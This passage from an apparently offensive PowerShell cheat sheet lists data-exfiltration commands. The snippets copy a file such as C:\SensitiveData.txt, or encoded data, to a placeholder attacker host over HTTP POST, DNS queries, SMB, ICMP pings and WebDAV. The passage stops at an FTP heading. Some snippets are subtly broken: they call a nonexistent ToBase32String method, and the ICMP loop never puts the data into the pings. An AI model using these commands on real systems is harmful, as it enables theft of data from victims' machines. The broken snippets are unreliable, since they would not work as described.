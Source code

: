 * **Exfiltrate Files using HTTP POST Request**:

```powershell
$FilePath = "C:\SensitiveData.txt"
$Server = "http://<attack_ip>:<attack_port>/upload"
$FileContent = Get-Content $FilePath -Raw
Invoke-WebRequest -Uri $Server -Method POST -Body $FileContent
```

#### 7.3 Encode and Exfiltrate Data via DNS&#x20;

* **Encode and Send Data via DNS Queries**:

```powershell
$Data = "Sensitive Data"
$EncodedData = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($Data))
nslookup $EncodedData.<attack_ip>
```

* **Exfiltrate Data Using DNS Queries**:

```powershell
$Data = "Sensitive Data"
$EncodedData = [System.Text.Encoding]::UTF8.GetBytes($Data)
$Base32Data = [Convert]::ToBase32String($EncodedData)
nslookup $Base32Data.<attack_ip>
```

#### 7.4 Exfiltrate Data via SMB&#x20;

* **Use SMB to Exfiltrate Data to an Attacker-Controlled Server**:

```powershell
New-PSDrive -Name "Z" -PSProvider FileSystem -Root "\\<attack_ip>\SharedFolder"
Copy-Item -Path "C:\SensitiveData.txt" -Destination "Z:\"
```

#### 7.5 Exfiltrate Data via ICMP&#x20;

* **Exfiltrate Data Using ICMP Packets**:

```powershell
$Data = "Sensitive Data"
$Bytes = [System.Text.Encoding]::UTF8.GetBytes($Data)
ForEach ($Byte in $Bytes) {
    ping -n 1 -l 1 <attack_ip> -w 1
}
```

#### 7.6 Exfiltrate Data via WebDAV&#x20;

* **Set Up WebDAV Client and Exfiltrate Data**:

```powershell
New-PSDrive -Name "W" -PSProvider FileSystem -Root "\\<attack_ip>\webdav"
Copy-Item -Path "C:\SensitiveData.txt" -Destination "W:\"
```

#### 7.7 Exfiltrate Data via FTP&#x20;
